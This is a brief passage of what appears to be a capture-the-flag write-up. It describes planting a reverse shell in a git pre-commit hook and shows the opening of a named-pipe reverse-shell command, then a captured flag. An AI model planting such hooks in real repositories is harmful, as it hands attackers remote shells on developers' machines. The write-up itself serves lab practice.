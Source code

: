 <details class="Ref" name="precommit"><summary>pre commit</summary></details>

    
- The origin content of pre-commit

![](./IMG/61.png)
- reverse shell in pre-commit content 

```
cat .git/hooks/pre-commit
```
![](./IMG/62.png)

```
rm /tmp/f;
mkfifo /tmp/f;
cat /tmp/f
```
- Result 

![](./IMG/63.png)
- Get flag: ```365b8ec2c3f41acdc49cd8967bb6e860```
